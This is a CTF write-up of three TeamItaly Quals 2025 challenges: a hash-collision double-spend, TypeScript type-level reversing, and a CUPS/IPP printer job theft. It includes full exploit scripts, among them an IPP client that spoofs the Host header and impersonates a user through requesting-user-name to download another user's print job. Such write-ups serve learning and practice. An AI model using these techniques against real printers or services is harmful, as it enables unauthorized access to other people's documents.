

The TeamItaly Quals 2025 served as this years election process for the members of Team Italy - a prestigious CTF team full of talented people representing their country at the ECSC. Their challenges were worthy of this title - with most challenges not exceeding 10 solves, with the CTF having over 500 people officialy registered. Let's get into it!

## crypto - sombrero (500 points, 3 solves)

We are given 1 file, and that is a file called **sombrero.py**. 

The file is source code of an application which was simulating a blockchain-like system with basic transaction support.
The initialization worked as follows :

```python
flag = os.getenv("FLAG", "TeamItaly{REDACTED}")

MAX_USERS = 5

users = {}
transactions = {}
```

The users inside of the source code register by providing a `user_id` that is 120-127 bits long, where each user is initialized with a balance of 100 and an associated hash function instance :

```python
def register():
    ...
    assert user_id not in users and 120 <= user_id.bit_length() <= 128
    user_h = Hash(user_id)
    users[user_id] = {"h": user_h, "balance": 100, "spent_transactions": []}
```

Users can send value to others or to the system itself using the `to = 0` flag. The transaction is stored using a key derived from `Hash.h(transaction_id)`

```python
def create_transaction():
    ...
    assert users[user_from]["balance"] >= value and value >= 0
    assert transaction_id.bit_length() >= 128

    users[user_from]["balance"] -= value
    transactions[users[user_from]['h'].h(transaction_id)] = {
        'from': user_from,
        'to': user_to,
        'value': value
    }
```

To spend a transaction, the user must provide a transaction ID that the system :
1. Looks up using `h(transaction_id)`
2. Checks that it has not been used before (the transaction id)
3. If `to = 0` and `value >= 1500` , prints out our dear flag

```python
def spend_transaction():
    transaction = transactions[users[user_from]['h'].h(transaction_id)]
    assert transaction['from'] == user_from
    assert transaction_id not in users[user_from]["spent_transactions"]

    users[user_from]["spent_transactions"].append(transaction_id)

    if transaction["to"] == 0 and transaction["value"] >= 1500:
        print(flag)
    else:
        users[transaction["to"]]["balance"] += transaction["value"]
```

### Custom hash implementation
The class `Hash` implements a non-standard and deterministic function which is influenced by:
1. An internal 128 bit `init_state` (the user ID)
2. A fixed bit permutation `bit_perm` seeded with `0x1337` (Wow, how original, yolo)
3. A state-mixing function `F(a, b, bitsize)` that combines permutation and XOR with constants derived from `math.e`

```python
def F(self, a, b, bitsize):
    for r in range(bitsize):
        bit = (b >> r) & 1
        tmp = 0
        for i, bit_index in enumerate(self.bit_perm):
            new_bit = (a >> (bit_index ^ bit)) & 1
            tmp |= (new_bit << i)
        a = tmp ^ self.c
    return a
```

and the hash digest flow is as follows 

```python
tmp   = F((state << 64) + b, b,   64)
state = F((state << 64) + b, tmp, 192)
state = state ^ tmp
state = state >> 64
```

In the above hash digest flow we can see this interesting operation

```python
state >> 64
```

This truncation ensures that only the upper 64 bits are retained after each block, which means that the entire hash output is truncated to 64 bits, even though the intermediate states are 192 bits wide. This introduces the risk of hash collisions where two distinct inputs produce the same final hash.

```python
transactions[users[user_from]['h'].h(transaction_id)] = { ... }
```

Because each transaction is indexed by `Hash.h(transaction_id)`, the underlying hash value is the actual key in the `transactions` dictionary.
Especially here, in this transaction system, the system only checks whether the raw input integer was previously used and it does not consider whether another `transaction_id` that hashes to the same value has already been spent

TL;DR 
Two different transaction IDs `txid1` and `txid2` can produce the same `Hash.h(txidX)` output, and therefore access the same transaction record. But the check `transaction_id` not in `spent_transactions` only blocks reuse of the exact same ID, not other colliding ones.

This is the root of the collision potential:

```python
state = state >> 64
```

Even though `state` after `F()` may be 128-192 bits wide it is only the upper 64 bits which are kept, therefore many different input blocks can result in the same final `state`, which makes the nature of this entire function inherently non-collision-resistant, as it cannot ensure unique digest outputs for distinct transaction IDs.

Using the flaw described above, we can :
1. Find two inputs such that :

```python
Hash(user_id).h(txid1) == Hash(user_id).h(txid2)
```

2. Use `txid1` to create and spend a transaction
3. Then spend txid2 - which is accepted by the system, all because it hashes to the same key in `transactions`, therefore it is valid, and it is also not inside of `spend_transaction`, so the check passes

#### Practice

Imagine this :

```python
Hash(uid).h(0xAAA) == Hash(uid).h(0xBBB)
```

1. `create_transaction(blabla, 0xAAA)` stores the data at some key, **k**
2. `spend_transaction(0xAAA)` looks up `k` , processes the transaction, and marks `0xAAA` as spent
3. `spend_transaction(0xBBB)` also looks up the same key, **k** , and it also finds the same data, and passes the entire check

### Exploit

```python
def find_base(x0, x1):
    return x0 >> 64, x0 & ((1<<64)-1), x1 & ((1<<64)-1)
```

```python
def build_pairs(base, lo0, lo1, needed=8):
    H = CustomHash(base)
    b0 = lo0 << 128
    b1 = lo1 << 128
    pairs = []
    i = 0
    while len(pairs) < needed:
        if H.digest(b0 + i) == H.digest(b1 + i):
            pairs.append((b0 + i, b1 + i))
        i += 1
    return pairs
```

1. We start from two 128-bit user IDs **(**x0**, **x1**)** that share the same upper 64 bits
2. We construct two sets of transactions IDs

```python
M0 = (lo0 << 128) + i, M1 = (lo1 << 128) + i
```

3. We find `M0`, `M1` such that `digest(M0) == digest(M1)` due to truncatation
Using collision pairs `(a, b)` where `h(a) == h(b)`, we perform:

```python
for a, b in coll_pairs:
    create(self.uid, self.balance, a)  
    spend(a)                           
    spend(b)                           
    self.balance *= 2                 
```

As we already mentioned, the second spend, **b**, is accepted becasue the system only checks that the raw `transaction_id` has not been used - not whether the hash key was reused.
`a` and `b` hash to the same value, so both map to the same transaction in the `transactions` dict
This loop doubles the user balance with every iteration, reaching over 256000 from the initial 100 coins in 8 iterations.

Once the balance exceeds 1500, we execute:

```python
tx_final = (1 << 128) + 0x1337
create(0, 1500, tx_final)
spend(tx_final, final=True)
```

This sends 1500 coins to `to = 0`, triggering:

```python
if transaction["to"] == 0 and transaction["value"] >= 1500:
    print(flag)
```

... successfuly printing the flag.


#### Solve 

```python
import struct
import math
import random
from Crypto.Util.Padding import pad
from Crypto.Util.number import long_to_bytes
from pwn import remote

# zreplikovana ich vlastna custom hash implementacia ktora bola v hash.py
class CustomHash:
    def __init__(self, seed):
        self.state = seed
        self.BSZ = 8
        self.DSZ = 16
        self.CONST = int.from_bytes(struct.pack('<d', math.e) * ((self.DSZ + self.BSZ) // 8), 'big')
        random.seed(0x1337)
        self.perm = list(range(8 * (self.DSZ + self.BSZ)))
        random.shuffle(self.perm)

    def _round(self, A, B, width):
        X = A
        for r in range(width):
            bit = (B >> r) & 1
            tmp = 0
            for i, idx in enumerate(self.perm):
                tmp |= (((X >> (idx ^ bit)) & 1) << i)
            X = tmp ^ self.CONST
        return X

    def digest(self, m_int):
        data = long_to_bytes(m_int) if isinstance(m_int, int) else m_int
        data = pad(data, self.BSZ)
        S = self.state
        for off in range(0, len(data), self.BSZ):
            block = int.from_bytes(data[off:off+self.BSZ], 'big')
            t1 = self._round((S << (8*self.BSZ)) + block, block,        8*self.BSZ)
            t2 = self._round((S << (8*self.BSZ)) + block, t1,           8*(self.BSZ + self.DSZ))
            S  = ((t2 ^ t1) >> (8*self.BSZ))
        return S

def find_base(x0, x1):
    return x0 >> 64, x0 & ((1<<64)-1), x1 & ((1<<64)-1)

def build_pairs(base, lo0, lo1, needed=8):
    H = CustomHash(base)
    b0 = lo0 << 128
    b1 = lo1 << 128
    pairs = []
    i = 0
    while len(pairs) < needed:
        if H.digest(b0 + i) == H.digest(b1 + i):
            pairs.append((b0 + i, b1 + i))
        i += 1
    return pairs

class Client:
    def __init__(self, host, port, uid):
        self.r = remote(host, port)
        self.uid = uid
        self.balance = 100
        self.r.recvuntil(b'> ')

    def register(self):
        self.r.sendline(b'1')
        self.r.recvuntil(b'User id: ')
        self.r.sendline(str(self.uid).encode())
        self.r.recvuntil(b'> ')

    def create(self, to, amt, txid):
        self.r.sendline(b'2')
        self.r.recvuntil(b'From: ')
        self.r.sendline(str(self.uid).encode())
        self.r.recvuntil(b'To: ')
        self.r.sendline(str(to).encode())
        self.r.recvuntil(b'Value: ')
        self.r.sendline(str(amt).encode())
        self.r.recvuntil(b'Transaction id: ')
        self.r.sendline(str(txid).encode())
        self.r.recvuntil(b'> ')

    def spend(self, txid, final=False):
        self.r.sendline(b'3')
        self.r.recvuntil(b'From: ')
        self.r.sendline(str(self.uid).encode())
        self.r.recvuntil(b'Transaction id: ')
        self.r.sendline(str(txid).encode())
        if final:
            return self.r.recvline(timeout=5).decode().strip()
        else:
            self.r.recvuntil(b'> ')
            return None

    def exploit(self, coll_pairs):
        for a, b in coll_pairs:
            self.create(self.uid, self.balance, a)
            self.spend(a)
            self.spend(b)
            self.balance *= 2
        tx_final = (1 << 128) + 0x1337
        self.create(0, 1500, tx_final)
        flag = self.spend(tx_final, final=True)
        print("Flag:", flag)

if __name__ == '__main__':
    x0 = 4834255595133874435204552325720083095538520465749038972963
    x1 = 4834255595133874435204552325720083095538520465749038972939
    base, l0, l1 = find_base(x0, x1)
    pairs = build_pairs(base, l0, l1)

    c = Client('sombrero.challs.quals.teamitaly.eu', 38069, base)
    c.register()
    c.exploit(pairs)
```

#### Flag

`TeamItaly{Infinite_money_glitch_ftw_868a388d2bdea91c}`

## rev - TsFuck (80 points, 35 solves)

We are given 1 file, and that is a file called `TsFuck.ts`. 
Upon initial analysis of the source code and the CTF assignment, we can easily derive that the flag is embedded statically within the source code. Proof of this is no service being provided on the website, along with the source code showing no signs of externally connecting anywhere.
Our very first look at the source code shows one thing - the core concept behind this challenge is **type-level computation**.

Using **type-level computation**, the flag characters are encoded using number-based operations implemented entirely within TypeScript's type system.
Firstly, the numbers are represented as **Peano numerals**, a recursive form of encoding numbers:

```typescript
interface Qz {
  ke?: any;
  nw: "true" | "false";
}

// 0
type Yh = { nw: "true" };

// Successors (1 to 9, etc.)
type Zb<T extends Qz> = { ke: T; nw: "false" };
type Bp = Zb<Yh>; // 1
type Df = Zb<Bp>; // 2
type Gt = Zb<Df>; // 3
// and so on
```

### Reverse engineering TypeScript's arithmetic on types

TypeScript's recursive conditional types allow implementation of arithmetic operations, that we have seen in the source code.

#### Exponentation (Fx)

```typescript
type Fx<T1 extends Qz, T2> = {
  true: T2;
  false: Zb<Fx<Lq<T1>, T2>>;
}[Wg<T1>];
```

The above code is the TypeScript type system equivalent of exponentation. What it does is :
1. If `T1 == 0` (base case), return `T2`
2. Else, return `Zb<Fx<Lq<T1>, T2`
It's effectively counting how many times to wrap **Zb** around `T2` simulating multiplication.

#### Multiplication (Vn)

```typescript
type Vn<T1 extends Qz, T2 extends Qz> = Kc<T1, T2, Yh>;
type Kc<T1, T2, TAcc extends Qz> = {
  true: TAcc;
  false: Kc<Lq<T1>, T2, Fx<TAcc, T2>>;
}[Wg<T1>];
```

Above code recursively accumulates T2 in the accumulator, which mimicks repeated addition == multiplication.

#### Modulo Expontentation (Xf)

```typescript
type Xf<T2 extends Fd, T1 extends Fd> = Fx<Vn<Qp, Zr<T2>>, Zr<T1>>;
```

What this does is that :
1. `Zr<T` maps digit `T` to its type (e.g., `Zr<3` → `Gt`
2. `Qp = 10` so `Vn<Qp` `Zr<T2` gives `10*T2`
3. `Fx<10*T2` `Zr<T1` == exponentiation
This calculates `T1 ^ (10 * T2` at the type level.

#### Complex Operation : `Ona`

This type models a full expression:

```typescript
type Ona<TB, TE, TA, TM> = {
  true: Bp;
  false: Lm<Fx<On<TB, TE, TM>, TA>, TM>;
}[Wg<TE>];
```

Translated, this evaluates to :

```
(TB^TE + TA) % TM
```

Where :
1. `TB` : base (flag value)
2. `TE` : exponent
3. `TA` : addend from previous stage
4. `TM` : modulo, always 97
This is precisely how each character in the flag is validated by computing a chained equation.

The last type is :

```typescript
type It<TC extends "true"> = "true";
var output: It<Np<Uq<Ona<...>, Xf<0,0>, Xf<9,7>>>>;
```

This encodes a deeply nested chain of Ona computations, each one feeding into the next. 
The `Np<Uq<sum_t1ng_h3re>>` finally compares the result of all computations to `Xf<9,7` - e.g `7^9 % 97 = 4`

```typescript
It<Np<Uq<Ona<...>, 4>>>;
```

Only if the result is exactly 4 does the whole type resolve to "true", and thus pass type-checking.

The goal is to find 38 characters such that :

```python
(flag[i] ^ exponent[i] + prev_result) % 97 == expected_result[i]
```

Which we reimplemented in python  as :

```python
x = pow((g - ta + 97) % 97, modinv(te, 96), 97)
```

Where :
1. `g` = result value
2. `ta` = previous result
3. `te` = exponent
And finally, we converted the result to characters:

```python
chr(x + 48)
```

This is precisely because each flag byte was stored as `ASCII - 48` and this correctly reverts it.
### Solve

```python
import sys

def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    return x % m

def solve_modular_root(target, te, tm):
    if target == 0:
        return 0
    phi_tm = tm - 1
    inv_te = modinv(te, phi_tm)
    solution = pow(target, inv_te, tm)
    return solution

def solve_ctf_challenge():
    TM = 97
    equations_in_order = [
        (36, 13, 2), (7, 11, 19), (20, 13, 43), (10, 13, 33), (30, 13, 77),
        (2, 5, 74), (18, 19, 72), (35, 5, 1), (3, 11, 36), (9, 17, 14),
        (33, 11, 91), (11, 7, 53), (15, 17, 32), (22, 11, 51), (29, 5, 26),
        (13, 5, 12), (6, 13, 1), (19, 7, 65), (16, 7, 56), (23, 11, 89),
        (24, 19, 34), (0, 13, 70), (31, 13, 11), (28, 5, 61), (25, 11, 61),
        (37, 13, 80), (14, 7, 47), (1, 17, 79), (21, 7, 79), (32, 19, 55),
        (34, 7, 55), (4, 5, 11), (17, 13, 96), (26, 11, 35), (12, 5, 89),
        (5, 11, 31), (27, 19, 29), (8, 7, 72)
    ]
    solutions = {}
    ta = 0 # spomínaný addend

    for f_idx, te, g in equations_in_order:
        target = (g - ta + TM) % TM                     # Ona<TB, TE, TA, TM> reverse
        solved_val = solve_modular_root(target, te, TM) # Ona<TB, TE, TA, TM> reverse
        solutions[f_idx] = solved_val
        ta = g

    final_flag = ""
    for i in range(38):
        val = solutions.get(i)
        if val is None:
            final_flag += "?"
            continue
        char_code = val + 48
        # print(chr(char_code)) -> Uncomment if you want to see result of each byte after reversing
        final_flag += chr(char_code) # Add each solved byte to the final flag


    print(final_flag)


if __name__ == '__main__':
    solve_ctf_challenge()
```
#### Flag

`TeamItaly{Wh4t_h4v3_y0u_d0n3_e27fc07e}`

## misc/rev - Save a Tree (1 solve, 500 points)

The goal is to retrieve a flag from a .pdf file exposed via IPP on a fake printer. We needed to find the username that owns the correct print job, use CUPS-specific CUPS-Get-Document operation to download the document and wrap IPP packets over HTTP in both directions.

<Callout title="IPP/CUPS fundamentals" variant="important">
IPP (Internet Printing Protocol) runs over HTTP(S) and uses binary packets.

Every IPP packet contains:
	1.	Version (2 bytes)
	2.	operation_id (2 bytes) — like `0x4002 = Get-Printer-Attributes`, `0x4027 = CUPS-Get-Document`
	3.	request_id (4 bytes)
	4.	Attribute groups (tags + data)
	5.	End of attributes (0x03)

CUPS-Get-Document returns the raw bytes of a document attached to a job.
</Callout>

Therefore we need to implement a minimal IPP client with some helper functions to encode attributes, as follows

```python
def encode_attribute(tag, name, value):
    encoded = bytearray()
    encoded += tag
    encoded += len(name).to_bytes(2, 'big') + name
    encoded += len(value).to_bytes(2, 'big') + value
    return encoded
```

These helpers build the IPP attribute payload. `build_ipp_request(operation_id, attributes)` concatenates the header, attribute groups, and the terminating tag.

### Crafting CUPS-Get-Document

```python title=cups_get_document.py
def create_cups_get_document_request(printer_name, username, job_id, document_number):
    attributes = [
        encode_attribute(TAG_CHARSET, b'attributes-charset', b'utf-8'),
        encode_attribute(TAG_LANGUAGE, b'attributes-natural-language', b'en-us'),
        encode_attribute(TAG_URI, b'printer-uri', b'ipp://127.0.0.1/printers/' + printer_name.encode()),
        encode_attribute(TAG_INTEGER, b'job-id', job_id.to_bytes(4, 'big')),
        encode_attribute(TAG_INTEGER, b'document-number', document_number.to_bytes(4, 'big')),
        encode_attribute(TAG_NAME, b'requesting-user-name', username.encode()),
    ]
    return build_ipp_request(CUPS_GET_DOCUMENT, attributes)
```

The crucial attribute is printer-uri pointing at ipp://127.0.0.1/blabla , on the HTTP layer, spoof the Host header to look like an internal request.

<Callout title="First Vulnerability" variant="important">
Using `Host: 127.0.0.1` makes the request appear local to the CUPS instance, enabling routes/permissions intended only for loopback.
</Callout>

```python title=send.py
response = requests.post(
    url,
    headers={
        "Host": "127.0.0.1",                       # key bypass
        "Content-Type": "application/ipp",
        "User-Agent": "CUPS/2.4.7 ...",
        "Expect": "100-continue",
    },
    data=data
)
```

### Parsing the IPP response

`parse_ipp_response()` walks the binary stream, printing attributes until it hits 0x03 (end of attributes). Everything after that tag is the document payload, so our .pdf file.

```python title=parse.py
extra_data = parse_ipp_response(response.content)
if extra_data:
    with open('out.pdf', 'wb') as f:
        f.write(extra_data)extra_data = parse_ipp_response(response.content)
```

Using `Get-Jobs` and `Get-Job-Attributes`, we enumerate jobs and discover the job is owned by remroot. More investigation shows that the CUPS server is misconfigured and does not validate the password, it trusts the value of the requesting-user-name attribute. Setting requesting-user-name=remroot is enough to authorize retrieval, yippe!.

<Callout title="Auth flaw" variant="note">
AuthZ was effectively “by header value”. CUPS accepted requesting-user-name at face value and skipped real credential checks.
</Callout>


```python title=solve.py
import requests
import string

IPP_VERSION = b'\x02\x00'

# Operation IDs
GET_PRINTER_ATTRIBUTES = b'\x40\x02'
GET_JOBS = b'\x00\x0A'
GET_JOB_ATTRIBUTES = b'\x00\x09'
CUPS_GET_DOCUMENT = b'\x40\x27'

REQUEST_ID = b'\x00\x00\x00\x01'
ATTRIBUTES_TAG = b'\x01'
END_OF_ATTRIBUTES_TAG = b'\x03'

# Attribute Tags
TAG_INTEGER = b'\x21'
TAG_NAME = b'\x42'
TAG_KEYWORD = b'\x44'
TAG_URI = b'\x45'
TAG_CHARSET = b'\x47'
TAG_LANGUAGE = b'\x48'

ATTRIBUTES_CHARSET = b'attributes-charset'
ATTRIBUTES_LANGUAGE = b'attributes-natural-language'
REQUESTED_ATTRIBUTES = b'requested-attributes'

CHARSET_UTF8 = b'utf-8'
LANGUAGE_ENUS = b'en-us'

JOB_ATTRIBUTES = [
    b"job-id",
    b"job-k-octets",
    b"job-name",
    b"job-originating-user-name",
    b"job-printer-state-message",
    b"job-printer-uri",
    b"job-state-reasons",
    b"time-at-creation",
    b"time-at-completed",
]

def encode_attribute(tag, name, value):
    encoded = bytearray()
    encoded += tag
    encoded += len(name).to_bytes(2, 'big') + name
    encoded += len(value).to_bytes(2, 'big') + value
    return encoded

def encode_multiple_keywords(tag, name, values):
    encoded = bytearray()
    encoded += tag
    encoded += len(name).to_bytes(2, 'big') + name
    encoded += len(values[0]).to_bytes(2, 'big') + values[0]
    for val in values[1:]:
        encoded += tag
        encoded += b'\x00\x00'
        encoded += len(val).to_bytes(2, 'big') + val
    return encoded

def build_ipp_request(operation_id, attributes):
    req = bytearray()
    req += IPP_VERSION
    req += operation_id
    req += REQUEST_ID
    req += ATTRIBUTES_TAG

    for attr in attributes:
        req += attr

    req += END_OF_ATTRIBUTES_TAG
    return req

def create_get_printer_attributes_request():
    attributes = [
        encode_attribute(TAG_CHARSET, ATTRIBUTES_CHARSET, CHARSET_UTF8),
        encode_attribute(TAG_LANGUAGE, ATTRIBUTES_LANGUAGE, LANGUAGE_ENUS),
        encode_multiple_keywords(TAG_KEYWORD, REQUESTED_ATTRIBUTES, [
            b'printer-name',
            b'printer-type', b'printer-location', b'printer-info',
            b'printer-make-and-model', b'printer-state', b'printer-state-message',
            b'printer-state-reasons', b'printer-uri-supported', b'device-uri',
            b'printer-is-shared', b'printer-uuid', b'printer-resolution',
        ])
    ]
    return build_ipp_request(GET_PRINTER_ATTRIBUTES, attributes)

def create_get_jobs_request(username):
    attributes = [
        encode_attribute(TAG_CHARSET, ATTRIBUTES_CHARSET, CHARSET_UTF8),
        encode_attribute(TAG_LANGUAGE, ATTRIBUTES_LANGUAGE, LANGUAGE_ENUS),
        encode_attribute(TAG_URI, b'printer-uri', b'ipp://127.0.0.1/'),
        encode_multiple_keywords(TAG_KEYWORD, REQUESTED_ATTRIBUTES, JOB_ATTRIBUTES),
        encode_attribute(TAG_NAME, b'requesting-user-name', username.encode()),
    ]
    return build_ipp_request(GET_JOBS, attributes)

def create_get_jobs_attributes_request(job_id, username):
    attributes = [
        encode_attribute(TAG_CHARSET, ATTRIBUTES_CHARSET, CHARSET_UTF8),
        encode_attribute(TAG_LANGUAGE, ATTRIBUTES_LANGUAGE, LANGUAGE_ENUS),
        encode_attribute(TAG_URI, b'job-uri', f'ipp://127.0.0.1/jobs/{job_id}'.encode()),
        encode_attribute(TAG_NAME, b'requesting-user-name', username.encode()),
    ]
    return build_ipp_request(GET_JOB_ATTRIBUTES, attributes)

def create_cups_get_document_request(printer_name: str, username: str, job_id: int, document_number: int):
    attributes = [
        encode_attribute(TAG_CHARSET, ATTRIBUTES_CHARSET, CHARSET_UTF8),
        encode_attribute(TAG_LANGUAGE, ATTRIBUTES_LANGUAGE, LANGUAGE_ENUS),
        encode_attribute(TAG_URI, b'printer-uri', b'ipp://127.0.0.1/printers/' + printer_name.encode('utf-8')),
        encode_attribute(TAG_INTEGER, b'job-id', job_id.to_bytes(4, 'big')),
        encode_attribute(TAG_INTEGER, b'document-number', document_number.to_bytes(4, 'big')),
        encode_attribute(TAG_NAME, b'requesting-user-name', username.encode('utf-8')),
    ]
    return build_ipp_request(CUPS_GET_DOCUMENT, attributes)


def send_ipp_request(url, data):
    headers = {
        "Host": "127.0.0.1", 
        "Content-Type": "application/ipp",
        "User-Agent": "CUPS/2.4.7 (Linux 6.8.0-58-generic; x86_64) IPP/2.0",
        "Expect": "100-continue"
    }
    response = requests.post(url, headers=headers, data=data)
    return response

def parse_ipp_response(data):
    idx = 0
    version = data[idx:idx+2]; idx += 2
    status_code = data[idx:idx+2]; idx += 2
    request_id = data[idx:idx+4]; idx += 4

    print(f"IPP Version: {version.hex()}, Status Code: {status_code.hex()}, Request ID: {int.from_bytes(request_id, 'big')}")
    
    current_tag = None
    while idx < len(data):
        tag = data[idx]; idx += 1

        if tag == 0x03:  
            print("End of attributes")
            break
        elif tag in (0x01, 0x02, 0x04):  
            current_tag = tag
            print(f"\nAttribute Group Tag: {hex(tag)}")
            continue

        name_length = int.from_bytes(data[idx:idx+2], 'big')
        idx += 2
        
        name = data[idx:idx+name_length].decode('utf-8') if name_length else '' 
        idx += name_length

        value_length = int.from_bytes(data[idx:idx+2], 'big')
        idx += 2
        
        value = data[idx:idx+value_length]
        idx += value_length 
        
        try:
            decoded_value = value.decode('utf-8')
            if all(c in string.printable for c in decoded_value):
                output = decoded_value
            else:
                output = value.hex()
        except UnicodeDecodeError:
            decoded_value = value.hex()

        name = name or '(cont.)'
        print("  ", name, ":", output)
    
    return data[idx:]

SERVER = "challenge01.it"
PORT = 38761


url = f"http://{SERVER}:{PORT}/"
username = 'remroot' 


data = create_cups_get_document_request('Office_Printer', username, 1, 1)
response = send_ipp_request(url, data)

extra_data = parse_ipp_response(response.content)

if extra_data:
    with open('out.pdf', 'wb') as f:
        f.write(extra_data)
```

And opening the retrieved out.pdf gives us the flag



